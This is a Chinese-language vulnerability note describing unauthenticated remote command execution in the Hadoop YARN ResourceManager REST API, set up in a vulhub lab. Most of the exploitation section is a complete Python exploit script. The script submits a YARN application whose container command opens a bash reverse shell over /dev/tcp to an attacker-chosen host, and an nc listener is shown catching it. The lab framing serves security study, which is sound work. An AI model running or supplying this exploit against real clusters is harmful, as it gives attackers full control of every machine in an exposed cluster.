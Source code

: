 # Hadoop YARN resourcemanager 未授权访问漏洞

## 漏洞描述

负责对资源进行同一管理调度的ReasourceManager组件的UI管理界面开放在8080/8088端口，攻击者无需认证即可通过REST API部署任务来执行任意命令，最终可完全控制集群中所有的机器。

## 环境搭建

使用vulhub

```
[root@localhost ~]# ls /opt/vulhub-master/hadoop/unauthorized-yarn/
docker-compose.yml  exploit.py  README.md

[root@localhost ~]# docker-compose up
```

访问8088端口，可以看到Hadoop [YARN](https://so.csdn.net/so/search?q=YARN\&spm=1001.2101.3001.7020) ResourceManager WebUI界面。

![image-20220516171700499](../../.gitbook/assets/image-20220516171700499.png)

## 漏洞利用

启动nc

```
[root@localhost ~]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

攻击脚本

```
[root@localhost unauthorized-yarn]# cat exploit.py 
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.32.131' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

成功攻击成功

![image-20230129210605495](../../.gitbook/assets/image-20230129210605495.png)